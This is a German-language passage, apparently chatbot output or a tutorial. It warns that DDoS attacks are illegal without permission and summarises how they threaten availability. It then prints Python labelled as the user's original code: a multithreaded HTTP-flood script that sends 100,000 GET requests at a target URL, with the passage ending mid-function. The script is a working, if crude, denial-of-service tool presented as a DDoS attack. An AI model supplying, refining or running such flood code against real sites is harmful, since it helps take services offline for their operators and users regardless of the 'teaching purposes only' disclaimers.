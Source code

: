 - **Dieser Code ist sehr einfach und dient nur zu Demonstrationszwecken.** Er ist **nicht besonders effizient oder stealthy** (unauffällig). Moderne Webserver und DDoS-Abwehrsysteme können diesen einfachen Angriff wahrscheinlich leicht erkennen und abwehren.
- **Für echte DDoS-Angriffe werden viel komplexere Botnetze, Techniken und Tools eingesetzt.**
- **Der Code kann trotzdem eine TEST-Webseite oder einen lokalen Server unter Umständen überlasten.** Seien Sie vorsichtig und testen Sie **nur gegen Systeme, für die Sie die Erlaubnis haben!**
- **Die Ausführung von DDoS-Angriffen gegen Systeme ohne Erlaubnis ist ILLEGAL und ETHISCH VERWERFLICH.** Verwenden Sie diesen Code nur zu **LEHRZWECKEN** und im **ETHISCHEN RAHMEN**.

**Zusammenfassung:**

DDoS-Angriffe sind eine ernstzunehmende Bedrohung für die Verfügbarkeit von Online-Diensten. Das Verständnis der Funktionsweise von DDoS-Angriffen und der verfügbaren Abwehrmaßnahmen ist entscheidend für die Sicherheit von Netzwerken und Systemen. Das gezeigte Codebeispiel soll das Prinzip eines HTTP-Flood-Angriffs veranschaulichen, jedoch **ausschließlich zu Lehrzwecken** und im **ETHISCHEN Rahmen** verwendet werden. **Missbrauch kann schwerwiegende rechtliche Konsequenzen haben.**


**Ausgangscode (Ihr ursprünglicher Code):**

Python

```
import requests
import threading
import time

# Ziel-URL (BITTE EINE EIGENE TEST-WEBSEITE VERWENDEN!)
target_url = "http://example.com"  # ERSETZEN SIE DIES DURCH EINE EIGENE TEST-URL!

# Anzahl der Requests pro Thread
requests_per_thread = 1000

# Anzahl der Threads (parallele Anfragen)
num_threads = 100

def flood_target(url):
    """Sendet eine große Anzahl von HTTP-GET-Requests an die Ziel-URL."""
    for _ in range(requests_per_thread):
        try:
            response = requests.get(url)
            if response.status_code == 200:
                print(f"Thread {threading.current_thread().name}: Request erfolgreich ({response.status_code})")
            else:
                print(f"Thread {threading.current_thread().name}: Request fehlgeschlagen ({response.status_code})")
        except requests.exceptions.RequestException as e:
            print(f"Thread {threading.current_thread().name}: Fehler bei der Anfrage: {e}")

def start_ddos(url, threads):
    """Startet den DDoS-Angriff mit mehreren Threads."""
    thread_list = []
    print(f"Starte DDoS-Angriff auf {url} mit {threads} Threads...")
    start_time = time.time()

    for i in range(threads):
        thread = threading.Thread(target=flood_target, args=(url,), name=f"Thread-{i+1}")
        thread_list.append(thread)
        thread.start()

    for thread in thread_list:
        thread.join() # Warte, bis alle Threads beendet sind

    end_time = time.time()
    duration = end_time - start_time
```